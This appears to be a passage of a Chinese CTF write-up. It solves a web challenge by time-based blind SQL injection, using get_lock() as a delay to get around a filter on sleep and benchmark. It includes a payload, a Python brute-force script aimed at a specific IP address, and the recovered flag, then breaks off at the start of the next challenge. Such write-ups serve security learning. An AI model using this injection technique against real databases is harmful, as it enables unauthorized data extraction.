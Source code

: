 - robots.txt

- get_lock()

在 robot.txt 中获取到：

```sql
INSERT INTO `article` (`id`, `title`, `view_times`,`content`) VALUES
(1, 'admin\' flag',0, 'xxxxxxxxxxxxxxxxxxxxxxx'),
(2, 'hello guest',0, 'hello guest,you want is not here~~'),
(3, 'some hint',0, 'long or short?\r\nsleep and injection!');
```
经过测试发现其检测 sleep、benchmark 函数，这里我们可以利用等价函数 `get_lock()` 来进行延时注入。

Payload:

```sql
id=1' and if(ascii(substr((content),1,1))>1,get_lock('test',3),1)%23
```

Exp:

```python
#coding=utf8
import requests
import time
data = ''
url = "http://114.55.36.69:8007/article.php?id=1'"

for i in range(47):
    for c in range(32,127):
        url_req = url + " and if(ascii(substr((content),{0},1))={1},get_lock('test',3),1)%23".format(i+1,str(c))
        print(url_req)
        start_time = time.time()
        res = requests.get(url_req)
        end_time = time.time()
        if (end_time - start_time) > 2.5:
            data += chr(c)
            print(data)
            break;
print('data:',data)
```

获取到 `flag{c221e22a28b933f103f0f88cab68b79b}`.


## Web10 这个网站没写完

- 二次注入

- Hex编码

- require_once

下载源代码 web.zip 进行审计。

- index.php
